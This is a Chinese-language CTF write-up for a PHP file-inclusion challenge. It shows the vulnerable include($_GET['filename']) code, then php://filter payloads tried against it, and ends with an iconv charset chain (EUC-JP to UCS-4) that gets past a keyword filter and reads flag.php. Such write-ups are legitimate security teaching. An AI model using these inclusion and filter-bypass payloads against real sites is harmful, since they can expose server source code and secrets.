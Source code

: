 ```yaml
---
title: [CTF WP][攻防世界]文件包含 
date: 2023-03-17 08:13:16
keywords:
description: 本文是攻防世界 Web 题目文件包含的 Write Up，欢迎大家交流讨论。
---
```


## 题目介绍

这是攻防世界的一道 Web 题目，从题目描述和给出的源代码看，这是一个php的文件包含题目。

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

## WriteUp

看到有 include 函数，尝试了使用 php://filter 伪协议，做了下面几个尝试：

```php
# 做这个尝试的时候提示 do not hack ! 应该是对 read 做了过滤
?filename=php://filter/read=convert.base64-encode/resource=flag.php
# 使用这个尝试的时候，提示 you have use the right filter , but error usage
?filename=php://filter/convert.iconv.UTF-8.UTF-7/resource=index.php
```

尝试到这里的时候，停了下来。根据提示应该比较接近答案了，但是仍不知道突破口在什么地方。参考了前人的WP，才发现 iconv 过滤支持的编码格式很多，需要借助 Burpsuite 来尝试各类组合。

在 BP 中拦截请求后，将请求发送到 Intruder ，选择两个字符集做为参数。

从 PHP 官方文档中找到支持的所有字符集列表做为参数。

- UCS-4*
- UCS-4BE
- UCS-4LE*
- UCS-2
- UCS-2BE
- UCS-2LE
- UTF-32*
- UTF-32BE*
- UTF-32LE*
- UTF-16*
- UTF-16BE*
- UTF-16LE*
- UTF-7
- UTF7-IMAP
- UTF-8*
- ASCII*
- EUC-JP*
- SJIS*
- eucJP-win*
- SJIS-win*
- ISO-2022-JP
- ISO-2022-JP-MS
- CP932
- CP51932
- SJIS-mac (alias: MacJapanese)
- SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
- SJIS-Mobile#KDDI (alias: SJIS-KDDI)
- SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
- UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
- UTF-8-Mobile#KDDI-A
- UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
- UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
- ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
- JIS
- JIS-ms
- CP50220
- CP50220raw
- CP50221
- CP50222
- ISO-8859-1*
- ISO-8859-2*
- ISO-8859-3*
- ISO-8859-4*
- ISO-8859-5*
- ISO-8859-6*
- ISO-8859-7*
- ISO-8859-8*
- ISO-8859-9*
- ISO-8859-10*
- ISO-8859-13*
- ISO-8859-14*
- ISO-8859-15*
- ISO-8859-16*
- byte2be
- byte2le
- byte4be
- byte4le
- BASE64
- HTML-ENTITIES (alias: HTML)
- 7bit
- 8bit
- EUC-CN*
- CP936
- GB18030
- HZ
- EUC-TW*
- CP950
- BIG-5*
- EUC-KR*
- UHC (alias: CP949)
- ISO-2022-KR
- Windows-1251 (alias: CP1251)
- Windows-1252 (alias: CP1252)
- CP866 (alias: IBM866)
- KOI8-R*
- KOI8-U*
- ArmSCII-8 (alias: ArmSCII8)

![image-20230317081611716](ctf-wp-fileinclude/image-20230317081611716.png)

最后成功找到可以绕过过滤的字符集。

```php
?filename=php://filter/convert.iconv.EUC-JP%2a.UCS-4*/resource=flag.php
```

## 参考资料

1. [Multibyte String](https://www.php.net/manual/en/mbstring.supported-encodings.php)
1. [详解php://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)
1. [泰山杯：文件包含](https://blog.csdn.net/qq_36618918/article/details/128674773)
